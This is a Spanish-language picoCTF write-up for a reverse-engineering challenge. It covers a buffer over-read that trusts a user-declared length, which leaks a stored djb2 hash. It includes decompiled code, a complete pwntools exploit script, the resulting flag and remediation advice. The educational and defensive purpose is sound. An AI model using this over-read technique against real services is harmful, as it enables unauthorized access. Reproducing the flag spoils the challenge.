






# 🎯 Secure Password Database

**Plataforma:** picoCTF 2026
**Categoría:** Reverse Engineering
**Vulnerabilidad:** Heartbleed (lectura fuera de límites de buffer) + Hash Bypass  
**Dificultad:** Media  
**Herramientas:** Ghidra, ltrace, Python3, pwntools  

### 📂 Estructura de Archivos
* `README.md`: Reporte detallado de la vulnerabilidad y explotación.
* `system.out`: Binario ELF de 64 bits del reto.
* `script4.py`: Script de automatización del exploit.
* `assets/`: Directorio con las capturas de evidencia.

---

### 1. Reconocimiento

Al conectarnos al servidor con `nc candy-mountain.picoctf.net 58024`, el programa nos hace tres preguntas:

1. Ingresá un password
2. Decile cuántos bytes mide tu password
3. Ingresá el hash para autenticarte

También nos dieron el binario `system.out` para analizar localmente.

```bash
$ file system.out
system.out: ELF 64-bit LSB pie executable, x86-64, not stripped
```



Con `strings system.out | grep -i "flag\|password"` encontramos referencias a `flag.txt`, confirmando que el programa lee la flag del disco.


*Las cadenas confirman que el programa abre y lee `flag.txt`.*

---

### 2. Análisis de Vulnerabilidad

#### 2.1 Comportamiento anómalo — Heartbleed

Al ejecutar el binario localmente con password `"hola"` y longitud `10` (cuando el password mide solo 4 bytes), el programa devuelve:

```
104 111 108 97 10 0 0 0 0 0
```

Esos son los bytes de `"hola\n"` más bytes de memoria que no le pertenecen. El programa **confía ciegamente en la longitud que el usuario declara**, sin verificarla contra la longitud real del input. Esto es exactamente la vulnerabilidad Heartbleed: declarás una longitud mayor a la real para leer memoria ajena.


*Declarar longitud 10 sobre un password de 4 bytes vuelca memoria adyacente al buffer.*


*Con longitud 100 el volcado se extiende mucho más allá del password real.*

#### 2.2 Análisis con ltrace

```bash
$ ltrace ./system.out
calloc(90, 1)           → reserva 90 bytes en el heap
strcpy(buffer, "hola\n") → copia el password al inicio del buffer
atoi(longitud_declarada) → convierte tu número a entero SIN validar
printf("%d ", byte)      → imprime tantos bytes como dijiste
strtoul(hash_ingresado, ..., 10) → convierte tu hash a número
```


*`ltrace` revela `calloc(90,1)`, la copia del password y la conversión del hash con `strtoul(..., 10)`.*

`strtoul` en base 10 significa que el programa espera un **número decimal**, no bytes crudos.

#### 2.3 Estructura del buffer en memoria

Al declarar longitud `100` con password `"A"`, obtenemos 90 bytes:

```
[0]  = 65  → 'A' (nuestro password)
[1]  = 10  → '\n'
[2..59]  = 0  → padding vacío del buffer de 60 bytes
[60..72] = 105 85 98 104 56 49 33 106 42 104 110 33 -86  → ¡el hash secreto!
[73..89] = 0  → fin
```

#### 2.4 Descompilación con Ghidra — main()

El código descompilado reveló todo el mecanismo:

```c
// El hash se pre-calcula XOReando obf_bytes con 0xAA y se guarda en el índice 60
for (i = 0; i < 0xd; i++) {
    buffer[i + 0x3c] = obf_bytes[i] ^ 0xaa;  // 0x3c = 60
}

// El programa llama a make_secret() y compara con lo que mandamos
local_f8 = make_secret(local_e5);
if (local_f8 == lo_que_mandamos) {
    // abre flag.txt y la imprime
}
```

#### 2.5 Función make_secret() y hash()

`make_secret()` toma los 12 bytes del hash (termina en `\0` en el índice 12) y los pasa a `hash()`:

```c
long hash(byte *param_1) {
    long h = 0x1505;  // = 5381 en decimal
    while (*param_1 != 0) {
        h = (uint)*param_1 + h * 0x21;  // h = byte + h * 33
        param_1++;
    }
    return h;
}
```

Este es el algoritmo **djb2**, un hash no criptográfico clásico. Como lo conocemos completamente, podemos **calcularlo nosotros mismos**.

**Dos detalles críticos para replicarlo en Python:**
- C usa enteros de 64 bits con overflow. Python usa precisión arbitraria, por lo que hay que aplicar `& 0xFFFFFFFFFFFFFFFF` en cada iteración para simular el overflow.
- El resultado puede ser un `long` con signo negativo en C. Si supera `2^63`, hay que restarle `2^64` para obtener el valor con signo equivalente.

---

### 3. Explotación

El ataque completo en un solo script:

```python
from pwn import *

def djb2(data: bytes) -> int:
    h = 0x1505
    for byte in data:
        h = byte + h * 0x21
        h = h & 0xFFFFFFFFFFFFFFFF  # overflow de 64 bits como en C
    # Convertir a signed long como hace C internamente
    if h >= 0x8000000000000000:
        h = h - 0x10000000000000000
    return h

host = "candy-mountain.picoctf.net"
port = 53823

r = remote(host, port)

# Paso 1: Mandamos password corto
r.recvuntil(b"Please set a password for your account:\r\n")
r.sendline(b"A")

# Paso 2: Mentimos con la longitud para leer más allá de nuestro buffer
r.recvuntil(b"How many bytes in length is your password?\r\n")
r.sendline(b"100")

r.recvuntil(b"You entered:")
r.recvline()
r.recvuntil(b"Your successfully stored password:\r\n")

# Paso 3: Capturamos el volcado de memoria
memoria_filtrada = r.recvline().strip().decode().split()

# Paso 4: Extraemos los bytes del hash (índice 60, solo los primeros 12)
hash_input = bytearray()
for numero_str in memoria_filtrada[60:]:
    numero = int(numero_str)
    if numero == 0:
        break
    if numero < 0:
        numero = 256 + numero  # byte negativo → positivo (complemento a 2)
    hash_input.append(numero)

hash_input = hash_input[:12]  # make_secret() pone \0 en índice 12

log.info(f"Bytes para hashear: {hash_input}")

# Paso 5: Calculamos el djb2 igual que el programa
resultado = djb2(hash_input)
log.success(f"Hash calculado: {resultado}")

# Paso 6: Mandamos el número como string decimal (lo que espera strtoul)
r.recvuntil(b"Enter your hash to access your account!\r\n")
r.sendline(str(resultado).encode())

r.interactive()
```

**Payload:** El número decimal devuelto por djb2, por ejemplo `-3209081493549540382`

---

### 4. Resultado

```
[+] Hash calculado: -3209081493549540382
[*] Switching to interactive mode
picoCTF{d0nt_trust_us3rs}
```


*El exploit filtra el hash por Heartbleed, recalcula el djb2 y autentica, revelando la bandera.*

**Flag:** `picoCTF{d0nt_trust_us3rs}`

---

### 🛡️ Remediación (Developer Perspective)

* **Validar la longitud declarada contra la longitud real:** Antes de imprimir bytes, verificar que el número ingresado no supere `strlen(password)`. Nunca confiar en input del usuario para determinar cuánta memoria leer.

  ```c
  // ❌ Vulnerable
  for (i = 0; i <= longitud_declarada; i++) printf("%d ", buffer[i]);

  // ✅ Seguro
  int longitud_real = strlen(password);
  int longitud_a_mostrar = min(longitud_declarada, longitud_real);
  for (i = 0; i <= longitud_a_mostrar; i++) printf("%d ", buffer[i]);
  ```

* **No exponer la representación interna del hash:** El programa muestra los bytes de memoria que incluyen el secreto pre-calculado. El hash debería calcularse en el momento de la verificación, sin exponerse nunca en memoria accesible al usuario.

* **Usar algoritmos de hash criptográficos:** djb2 fue diseñado para tablas hash, no para seguridad. Para autenticación se deben usar funciones como **bcrypt**, **Argon2**, o al menos **SHA-256 con sal**.

* **Separar el buffer del usuario del secreto:** Guardar el password y el hash en regiones de memoria completamente separadas, nunca en el mismo bloque contiguo de 90 bytes.
